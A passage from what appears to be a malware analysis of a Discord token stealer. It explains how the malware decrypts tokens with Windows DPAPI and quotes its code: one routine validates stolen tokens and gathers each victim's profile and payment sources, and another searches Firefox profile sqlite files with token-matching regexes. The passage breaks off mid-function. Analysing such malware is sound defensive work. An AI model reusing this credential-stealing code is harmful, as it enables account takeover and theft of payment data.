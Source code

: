 
It uses the Windows DPAPI (per user encryption) to decrypt them. t also makes
a call to `stealFirefoxTokens` (see next section) and adds the result the the
collection of tokens. Once that’s complete, it exfils them:

    
    
        const valid_tokens = [];
        for(const value of merge(tokens_list, firefox_tokens)) {
            const token_data = await checkToken(value?.token);
    
            if(token_data?.id) {
                const user_data = await tokenRequests(value?.token, token_data?.id);
                if(!valid_tokens.find((u) => u?.user?.data?.id === token_data.id)) {
                    valid_tokens.push({
                        token: value?.token,
                        found_at: value?.found_in,
                        auth_tag_length: value?.auth_tag_length,
                        crypto_iv: value?.crypto_iv,
                        user: {
                            data: token_data,
                            profile: user_data?.profile,
                            payment_sources: user_data?.payment_sources
                        }
                    });
                };
            };
        };
    

#### Collect Tokens From Firefox

In the `getDiscordTokens` call, it also makes a call to `stealFirefoxTokens`:

    
    
    async function stealFirefoxTokens() {
        const path = join(process.env.APPDATA, 'Mozilla', 'Firefox', 'Profiles');
        const tokens_list = [];
    
        if(existsSync(path)) {
            try {
                const files = execSync('where /r . *.sqlite', { cwd: path })?.toString()
                ?.split(/\r?\n/);
        
                files?.forEach((file) => {
                    file = file?.trim();
                    if(existsSync(file) && statSync(file)?.isFile()) {
                        const lines = readFileSync(file, 'utf8')
                        ?.split('\n')?.map(x => x?.trim());
        
                        for(const regex of [new RegExp(/mfa\.[\w-]{84}/g), new RegExp(/[\w-][\w-][\w-]{24}\.[\w-]{6}\.[\w-]{26,110}/gm), new RegExp(/[\w-]{24}\.[\w-]{6}\.[\w-]{38}/g)]) {
                            lines?.forEach((line) => {
                                const tokens = line?.match(regex);
                                if(tokens) {
                                    tokens?.forEach((token) => {
                                        if (
                                            !token?.startsWith('NzY') &&
                                            !token?.startsWith('NDk') &&
                                            !token?.startsWith('MTg') &&
                                            !token?.startsWith('MjI') &&
                                            !token?.startsWith('MzM') &&
                                            !token?.startsWith('NDU') &&
                                            !token?.startsWith('NTE') &&
                                            !token?.startsWith('NjU') &&
                                            !token?.startsWith('NzM') &&
                                            !token?.startsWith('ODA') &&
                                            !token?.startsWith('OTk') &&